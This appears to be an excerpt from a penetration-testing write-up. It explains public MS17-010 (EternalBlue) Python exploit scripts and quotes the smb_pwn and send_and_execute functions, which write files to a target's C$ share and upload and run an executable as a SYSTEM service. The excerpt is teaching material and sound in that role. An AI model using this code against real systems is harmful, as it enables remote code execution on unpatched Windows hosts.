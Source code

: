 The best MS17-010 Python scripts I know of are from
[worawit](https://github.com/worawit/MS17-010). These work well, but are
a bit confusing to use.
[helviojunior](https://github.com/helviojunior/MS17-010) forked that
repo and added a single `send_and_execute.py`, which is really handy.
It's simply an update of the `zzz_exploit.py` script from the original,
but it is modified to upload a file and execute it as system.

In `zzz_exploit.py`, there's a function, `smb_pwn`:



    def smb_pwn(conn, arch):
            smbConn = conn.get_smbconnection()
            
            print('creating file c:\\pwned.txt on the target')
            tid2 = smbConn.connectTree('C$')
            fid2 = smbConn.createFile(tid2, '/pwned.txt')
            smbConn.closeFile(tid2, fid2)
            smbConn.disconnectTree(tid2)
            
            #smb_send_file(smbConn, sys.argv[0], 'C', '/exploit.py')
     #service_exec(conn, r'cmd /c copy c:\pwned.txt c:\pwned_exec.txt')
     # Note: there are many methods to get shell over SMB admin session
     # a simple method to get shell (but easily to be detected by AV) is
     # executing binary generated by "msfvenom -f exe-service ..."



This is the action taken with the exploit. In this case, without mod,
it's creating `C:\pwned.txt` on the target. But the commented out lines
show how the functions in this file can be used to also upload to the
target (`smb_send_file`) and execute as a service (`service_exec`).

The updated `send_and_execute.py` adds some handling of command line
args, and then this function:



    def send_and_execute(conn, arch):
            smbConn = conn.get_smbconnection()

            filename = "%s.exe" % random_generator(6)
            print "Sending file %s..." % filename


        #In some cases you should change remote file location
        #For example:
        #smb_send_file(smbConn, lfile, 'C', '/windows/temp/%s' % filename)
     #service_exec(conn, r'cmd /c c:\windows\temp\%s' % filename)    
     